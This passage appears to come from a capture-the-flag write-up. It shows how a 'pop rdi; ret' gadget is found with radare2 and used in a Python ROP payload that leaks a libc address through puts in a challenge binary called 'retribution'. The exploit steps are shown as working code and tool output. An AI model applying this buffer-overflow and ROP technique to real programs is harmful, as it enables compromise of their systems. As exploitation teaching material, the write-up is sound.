It takes a value from the stack and puts it into RDI and directly returns to continue our ROP chain. We can search for ROP gadgets in radare2 with:

````nasm
:> /R pop rdi
  0x55794e40028a                 5f  pop rdi
  0x55794e40028b a1bd52c216b4bdbebb  movabs eax, dword [0xbbbebdb416c252bd]
  0x55794e400294                 95  xchg eax, ebp
  0x55794e400295             c60340  mov byte [rbx], 0x40
  0x55794e400298         e9f632d400  jmp 0x55794f143593

  0x55794e400d33                 5f  pop rdi
  0x55794e400d34                 c3  ret
```` 
  
And we actually found exactly what we were looking for!  
At offset ``0xd33`` there is a ``pop rdi; ret`` gadget!  
Let's put this offset into our code and also calculate the real address of that gadget from our base address: 
  
````python
pop_rdi_offset = 0xd33
...
pop_rdi_address = baseaddr + pop_rdi_offset
````
  
Now we're ready to actually leak the libc address:  

````python
payload = b'A'*88
payload += p64(pop_rdi_address)
payload += p64(puts_got_address)
payload += p64(puts_plt_address)
payload += p64(missile_launcher_address)
r.sendline(payload)
````  
  
Now when we run our exploit we get this:

![libc leak](img/retribution_libc_leak.png)  
  
Let's start the script again but now in DEBUG mode:

<pre>
<span style="color:lime">cjreek@kali</span>:<span style="color:cornflowerblue">~</span>$ python3 ./pwn_retribution.py DEBUG
</pre>
